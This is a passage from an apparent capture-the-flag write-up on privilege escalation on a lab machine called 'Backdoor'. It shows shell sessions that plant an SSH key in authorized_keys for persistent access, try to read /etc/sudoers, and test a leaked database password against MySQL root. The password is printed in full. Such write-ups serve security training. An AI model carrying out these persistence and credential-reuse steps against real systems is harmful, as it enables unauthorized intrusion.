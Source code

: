 ## Privilege escalation
First, we need a better shell and a way to upload files to the target. To obtain so, we are going to use `ssh-keygen` to gain ssh access to the machine:
```bash
user@Backdoor:/home/user$ ssh-keygen
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/user/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Created directory '/home/user/.ssh'.
Your identification has been saved in /home/user/.ssh/id_rsa
Your public key has been saved in /home/user/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:btHnyFqleBt+T7Lr3EuhEArseiYL6A1evErFIhhndL4 user@Backdoor
The key\'s randomart image is:
+---[RSA 3072]----+
|  . .            |
| . o .           |
|. o . o   .      |
|.+.  o . o .     |
|o. oE . S o o .  |
|..+  . . + B . . |
|.o.oo o + B + o  |
|+ +..= . = +.*   |
| +.o.   . oo=o+. |
+----[SHA256]-----+
user@Backdoor:/home/user$ cd .ssh
cd .ssh
user@Backdoor:/home/user/.ssh$ cp id_rsa.pub authorized_keys
cp id_rsa.pub authorized_keys
user@Backdoor:/home/user/.ssh$ cat id_rsa
cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
# PRIVATE KEY CONTENT
-----END OPENSSH PRIVATE KEY-----
user@Backdoor:/home/user/.ssh$ 
```
Now, if we copy the content of `id_rsa` to the file `Results/id_rsa`, we obtain ssh access to the target:
```bash
❯ echo "-----BEGIN OPENSSH PRIVATE KEY-----
# PRIVATE KEY CONTENT
-----END OPENSSH PRIVATE KEY-----" > Results/id_rsa
❯ chmod 600 Results/id_rsa
❯ ssh user@10.10.11.125 -i Results/id_rsa
user@Backdoor:~$ 
```
Done, now we have an interactive shell. First step into privilege escalation is to test the following commands:
```bash
user@Backdoor:~$ sudo -l
[sudo] password for user: 
user@Backdoor:~$ cat /etc/sudoers
cat: /etc/sudoers: Permission denied
```
Which resulted in failure, so we need to try different attack vectors:
### Mysql
Previously, we obtained the credentials `wordpressuser@MQYBJSaD#DxG6qbm` for the database `wordpress`. We can test credentials reusing trying to connect to the user `root` of mysql:
```bash
❯ mysql -u root -p
Password: # MQYBJSaD#DxG6qbm
```